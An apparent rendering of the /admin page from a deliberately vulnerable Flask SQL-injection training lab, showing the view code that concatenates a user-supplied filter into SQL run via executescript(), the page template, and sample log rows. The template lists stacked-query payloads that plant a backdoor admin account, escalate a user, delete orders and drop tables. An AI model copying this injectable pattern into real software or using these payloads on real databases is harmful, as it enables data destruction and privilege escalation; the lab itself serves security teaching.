

The page /admin on the database its author committed (2 pictures, top to bottom).
### tables this page shows
CREATE TABLE logs (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    action TEXT,
    details TEXT,
    log_time TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

### app.py (the view)
@app.route('/admin')
def admin():
    db = get_db()
    results = []
    executed_query = None
    error = None
    log_filter = request.args.get('filter', '1=1')
    query = "SELECT * FROM logs WHERE " + log_filter
    executed_query = query
    try:
        cursor = db.executescript(query)
        results = db.execute("SELECT * FROM logs WHERE " + log_filter).fetchall()
    except sqlite3.Error as e:
        error = str(e)
    return render_template('admin.html',
                         results=results,
                         log_filter=log_filter,
                         executed_query=executed_query,
                         error=error)

### app.py (called while the page is built)
def get_db():
    if 'db' not in g:
        g.db = sqlite3.connect(DATABASE)
        g.db.row_factory = sqlite3.Row
    return g.db

### templates/admin.html (shortened to what this page needs)
{% extends "base.html" %}
{% block content %}
<div class="card">
    <div class="card-header">
        <span class="card-title">⚡ Admin Log Viewer</span>
        <span class="badge badge-danger">Vulnerable: Stacked Queries SQLi</span>
    </div>
    <p style="color: var(--text-muted); font-size: 14px; margin-bottom: 20px;">
        This endpoint is vulnerable to <strong>Stacked Queries SQL Injection</strong>.
        It uses <code>executescript()</code> which allows multiple SQL statements separated by semicolons.
        <span style="color: var(--danger);"><strong>WARNING: This can modify or destroy data!</strong></span>
    </p>
    <form method="GET" action="{{ url_for('admin') }}">
        <div style="display: flex; gap: 12px;">
            <input type="text" name="filter" value="{{ log_filter }}" placeholder="Filter condition (e.g., action='INIT')..." style="flex: 1;">
            <button type="submit" class="btn btn-primary">View Logs</button>
        </div>
    </form>
    {% if executed_query %}
    <div class="query-box">
        <span class="label">Executed SQL Query</span>
        <code>{{ executed_query }}</code>
    </div>
    {% endif %}
</div>
{% if results %}
<div class="card">
    <div class="card-header">
        <span class="card-title">System Logs ({{ results|length }} entries)</span>
    </div>
    <table class="data-table">
        <thead>
            <tr><th>ID</th><th>Action</th><th>Details</th><th>Time</th></tr>
        </thead>
        <tbody>
            {% for row in results %}
            <tr>
                <td>{{ row.id }}</td>
                <td><span class="badge badge-info">{{ row.action }}</span></td>
                <td>{{ row.details }}</td>
                <td>{{ row.log_time }}</td>
            </tr>
            {% endfor %}
        </tbody>
    </table>
</div>
{% endif %}
<div class="card" style="border-color: var(--danger);">
    <div class="card-header">
        <span class="card-title" style="color: var(--danger);">💉 Stacked Queries Payloads</span>
        <span class="badge badge-danger">DATA DESTRUCTION RISK</span>
    </div>
    <div style="background: rgba(248, 81, 73, 0.1); border: 1px solid rgba(248, 81, 73, 0.3); border-radius: 8px; padding: 12px; margin-bottom: 16px;">
        <strong style="color: var(--danger);">⚠️ WARNING:</strong> These payloads can permanently modify or delete data.
        Use the <a href="{{ url_for('reset_db') }}" style="color: var(--danger);">Reset Database</a> button to restore.
    </div>
    <div class="payload">
        <div class="payload-label">Add a new admin user (persistence attack)</div>
        1=1; INSERT INTO users (username, password, email, role) VALUES ('hacker', 'hacked123', 'hacker@evil.com', 'admin'); --
    </div>
    <div class="payload">
        <div class="payload-label">Promote existing user to admin</div>
        1=1; UPDATE users SET role='admin' WHERE username='alice'; --
    </div>
    <div class="payload">
        <div class="payload-label">Delete all orders (denial of service)</div>
        1=1; DELETE FROM orders; --
    </div>
    <div class="payload">
        <div class="payload-label">Drop the feedback table (destruction)</div>
        1=1; DROP TABLE feedback; --
    </div>
    <div class="payload">
        <div class="payload-label">Alter table to add backdoor column</div>
        1=1; ALTER TABLE users ADD COLUMN backdoor TEXT DEFAULT 'compromised'; --
    </div>
</div>
<div class="card" style="border-color: var(--info);">
    <div class="card-header">
        <span class="card-title" style="color: var(--info);">🔬 Why Stacked Queries Are Dangerous</span>
    </div>
    <ul style="padding-left: 20px; color: var(--text-muted); font-size: 13px; line-height: 1.8;">
        <li>Most SQL injection only reads data — stacked queries allow <strong>data modification</strong></li>
        <li>Attackers can create persistent backdoor accounts even after the original vulnerability is patched</li>
        <li>Can be used for privilege escalation, data destruction, or planting evidence</li>
        <li>Not all database drivers support stacked queries (SQLite <code>executescript()</code> does)</li>
        <li>In MySQL with <code>mysqli_multi_query()</code> and MSSQL with <code>;</code> separators</li>
    </ul>
</div>
{% endblock %}

### templates/base.html (style rules this page uses)
:root { --bg: #0d1117; --bg-secondary: #161b22; --border: #30363d; --text: #c9d1d9; --text-muted: #8b949e; --accent: #58a6ff; --accent-hover: #79b8ff; --danger: #f85149; --warning: #f0883e; --success: #3fb950; --info: #58a6ff; }
* { margin: 0; padding: 0; box-sizing: border-box; }
body { font-family: 'Segoe UI', system-ui, -apple-system, sans-serif; background: var(--bg); color: var(--text); line-height: 1.6; min-height: 100vh; }
.card { background: var(--bg-secondary); border: 1px solid var(--border); border-radius: 12px; padding: 24px; margin-bottom: 20px; }
.card-header { display: flex; align-items: center; justify-content: space-between; margin-bottom: 16px; }
.card-title { font-size: 18px; font-weight: 600; color: var(--text); }
.badge { display: inline-flex; align-items: center; padding: 4px 10px; border-radius: 20px; font-size: 11px; font-weight: 600; text-transform: uppercase; letter-spacing: 0.5px; }
.badge-danger { background: rgba(248, 81, 73, 0.15); color: var(--danger); border: 1px solid rgba(248, 81, 73, 0.3); }
.badge-info { background: rgba(88, 166, 255, 0.15); color: var(--accent); border: 1px solid rgba(88, 166, 255, 0.3); }
input[type="text"], input[type="password"], input[type="email"], textarea { width: 100%; padding: 10px 14px; background: var(--bg); border: 1px solid var(--border); border-radius: 8px; color: var(--text); font-size: 14px; }
.btn { display: inline-flex; align-items: center; justify-content: center; gap: 8px; padding: 10px 20px; border: none; border-radius: 8px; font-size: 14px; font-weight: 600; cursor: pointer; transition: all 0.2s; text-decoration: none; }
.btn-primary { background: var(--accent); color: white; }
.query-box { background: #0d1117; border: 1px solid var(--border); border-radius: 8px; padding: 16px; margin: 16px 0; font-family: 'Consolas', 'Monaco', monospace; font-size: 13px; overflow-x: auto; }
.query-box .label { color: var(--text-muted); font-size: 11px; text-transform: uppercase; letter-spacing: 1px; margin-bottom: 8px; display: block; }
.query-box code { color: #a5d6ff; }
.data-table { width: 100%; border-collapse: collapse; margin-top: 16px; }
.data-table th, .data-table td { padding: 12px; text-align: left; border-bottom: 1px solid var(--border); font-size: 13px; }
.data-table th { color: var(--text-muted); font-weight: 600; text-transform: uppercase; font-size: 11px; letter-spacing: 0.5px; }
.payload { background: #1a1f2e; border-left: 3px solid var(--warning); padding: 12px 16px; margin: 8px 0; border-radius: 0 8px 8px 0; font-family: 'Consolas', 'Monaco', monospace; font-size: 12px; color: #e6edf3; cursor: pointer; transition: background 0.2s; }
.payload-label { font-size: 11px; color: var(--warning); margin-bottom: 4px; font-weight: 600; }
code { font-family: 'Consolas', 'Monaco', 'Courier New', monospace; color: #a5d6ff; }

### rows shown on the page
logs: id "1", action "INIT", details "Database initialized for SQLi Lab", log_time "2026-05-20 18:46:39"
logs: id "2", action "ADMIN_LOGIN", details "Admin logged in from 127.0.0.1", log_time "2026-05-20 18:46:39"
logs: id "3", action "USER_REGISTER", details "New user alice registered", log_time "2026-05-20 18:46:39"

### other values the page prints
{{ executed_query }} "SELECT * FROM logs WHERE 1=1"
{{ results|length }} "3"
